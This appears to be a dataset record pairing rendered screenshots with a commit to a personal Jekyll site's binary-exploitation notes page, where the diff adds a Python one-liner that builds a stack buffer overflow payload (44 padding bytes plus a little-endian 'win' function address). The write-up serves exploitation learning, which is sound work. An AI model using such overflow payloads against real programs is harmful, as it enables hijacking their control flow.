

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 3810 px. Shown: the top 874 px of the window, without its empty margins (0-848 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 4555 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -177,3 +177,10 @@ Dump of assembler code for function win:
 ```
 
 We get `080491f6`, then converting to little endian, is `f6910408`.
+
+Creating the payload:
+
+```python
+import sys
+sys.stdout.buffer.write(b"A"*44 + bytes.fromhex('f6910408'))
+```
````
